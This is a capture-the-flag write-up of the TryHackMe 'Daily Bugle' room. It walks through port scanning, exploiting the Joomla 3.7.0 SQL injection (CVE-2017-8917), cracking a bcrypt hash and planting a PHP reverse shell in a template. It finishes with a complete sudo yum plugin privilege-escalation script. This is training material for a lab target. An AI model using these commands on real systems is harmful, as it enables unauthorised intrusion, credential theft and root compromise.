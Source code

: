 ```yaml
---
layout: post
title: "Daily Bugle"
date: 2022-04-01
categories: [Tryhackme, Hard-THM]
tags: [joomla, sqli, yum, sqlmap]
image: ../../assets/img/posts/DailyBugle.png 

---
```


## Description

Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

|**Room**|[Daily Bugle](https://tryhackme.com/room/dailybugle)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Hard|
|**Creator**|[tryhackme](https://tryhackme.com/p/tryhackme)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.66.234 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/161198809-9b402234-daba-4491-a483-37a134564ecb.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sC -sV -p22,80,3306 10.10.66.234 -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/161198818-24dd3bd6-42a3-466a-bc41-9436ee06e69e.png)

Result scan shows that port 22 is running ssh service, port 80 is running apache webserver. Let's start enumerating port 80 first.

Visit http://10.10.66.234,

![image](https://user-images.githubusercontent.com/67465230/161198825-ece094db-e4e5-4dbe-82f4-4c30989e3b00.png)

I landed on webpage where Spider-Man is robbing the bank (lmao) and this webpage also has a login page (interesting!).

Since I checked all the entry points already, it was dead-end. So I decided to fuzz hidden directories using gobuster,

```bash
gobuster dir -u http://10.10.66.234 -w /usr/share/seclists/Discovery/Web-Content/common.txt -q 2>/dev/null -o gobuster2.log
```

![image](https://user-images.githubusercontent.com/67465230/161198837-3a4341db-2b65-42d7-98cd-22c4ca8fdc3d.png)

Gobuster shows that there are many directories which we can work upon but I am more interested in Administrator directory. So I decided to navigate to that.

Visit http://10.10.66.234/Administrator,

![image](https://user-images.githubusercontent.com/67465230/161198849-a23d9848-da11-407f-bc8f-244879a8f727.png)

we got another login page but this time, it's running Joomla software. 

I tried to bypass this login mechanism using SQL injection and searched for possible exploits on the interweb but was unsuccessful.

Then I fired up the metasploit-framework using `msfconsole -q` and then I search for any joomla scanner,

```bash
search scanner joomla
```

![image](https://user-images.githubusercontent.com/67465230/161198855-f65b383c-b8f9-4d1d-8609-d8bf9833109b.png)

I was lucky that there are modules for joomla. 

So at first, I decided to gather information on Joomla version,

```bash
use auxiliary/scanner/http/joomla_version
```

![image](https://user-images.githubusercontent.com/67465230/161198859-a3b0e4cd-adcc-4c02-a8a2-cd3a6298903e.png)

setting the `options`:
- **set rhosts 10.10.66.234**

Firing up the exploit and we got the version of the joomla running on the system which is **3.7.0**,

![image](https://user-images.githubusercontent.com/67465230/161198872-299d0b71-1b21-4159-bdff-dfea420b974f.png)

Now since I knew what version of Joomla is running, I searched for possible exploits on interwebs, [joomla 3.7.0 python exploit](https://github.com/stefanlucas/Exploit-Joomla),

![image](https://user-images.githubusercontent.com/67465230/161198881-ee3cd729-d308-4d9b-ba03-d4dac76f10c3.png)

>**CVE-2017-8917** : SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers to execute arbitrary SQL commands via unspecified vectors.

Now, let's use this exploit on our target,

```bash
python joomblah.py http://10.10.66.234
```

![image](https://user-images.githubusercontent.com/67465230/161198889-aa09144a-ede7-45fd-b41c-a2d28e4a71af.png)

after firing this exploit, we got the hash of **jonah** user. 

Checking what type of hash it is using **nth** (Name-That-Hash) tool,

```bash
nth --text '$2y$10$0veO/****************.******.*********.*.************'
```

![image](https://user-images.githubusercontent.com/67465230/161198898-e2ab513b-68b0-4eab-bd43-cb3890bb3d4b.png)

Seems like this is Blowfish (mode 3200) hash.

I used hashcat to crack this hash,

```bash
hashcat.exe -a 0 -m 3200 crack.txt rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/161198905-b90bb108-0deb-4ea5-af75-a947f9c2f669.png)

we can also crack this hash using JTR,

```bash
john crack.txt wordlist=rockyou.txt --format=bcrypt
```

Now since we have jonah user credential, we can access the panel of website,

![image](https://user-images.githubusercontent.com/67465230/161198913-89a989b1-62e3-4ff1-9bf3-827ba1792eae.png)

Navigating around the website and I found that in **index.php** file in **Protostar template**, we can edit this file (like putting the php-reverse-shell code in it and save the file). 

So I started a listener using `nc -nvlp 4444` and triggered the shell by visiting http://10.10.68.234/index.php,

![image](https://user-images.githubusercontent.com/67465230/161198922-7a75117b-61ae-422b-9d0e-30b88296025c.png)

We got the connection after triggering the shell,

![image](https://user-images.githubusercontent.com/67465230/161198929-78d19591-62d5-4cdb-89d1-5ea8637c92b6.png)

But the shell I got was so unstable that when pressing ctrl-c for killing the process, it ultimately kills off the shell. 

So I tried to improve upon this shell,

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

but this command didn't work and this made me wonder that if this is not working, then do I have to solve this whole box with this unstable shell only :(. No.

Fortunately, I tried the same command but with python this time and it works,

![image](https://user-images.githubusercontent.com/67465230/161198934-e8ae1a08-0802-4f77-8144-e8b0fb4b0dca.png)

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
stty rows 38 columns 116
```

Now that our shell is improved, we can automate the enumeration with linpeas script,

![image](https://user-images.githubusercontent.com/67465230/161198943-05b60baf-ed4b-4b2e-9010-3e45b409834d.png)

after scrolling down the result, I found the password which I can use to switch to **jjameson** user. *I literally wasted half an hour on a wrong password I found.*

>REMEMBER TO LOOK AT EVERYTHING IN LINPEAS. Don’t skip to the bottom.

So let's switch to another user,

```bash
su jjameson
id
```

![image](https://user-images.githubusercontent.com/67465230/161199016-02cb86d4-d091-4f6c-ae38-4293ead9bcfe.png)

we're now jjameson user.

Let's list all the files we can run using sudo command,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/161199025-a6783d86-bfe7-4ada-be23-c6388ff08e6a.png)

we can run /usr/bin/yum binary as sudo.

I checked [yum](https://gtfobins.github.io/gtfobins/yum/#sudo) on gtfobins and got the method to escalate our privileges to root user,

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
```

![image](https://user-images.githubusercontent.com/67465230/161199036-272bd03d-ddfa-453d-86f7-d828056a39b4.png)

After executing last command, we got the system access,

```bash
sudo yum -c $TF/x --enableplugin=y
```

![[Pasted image 20211112022557.png]]

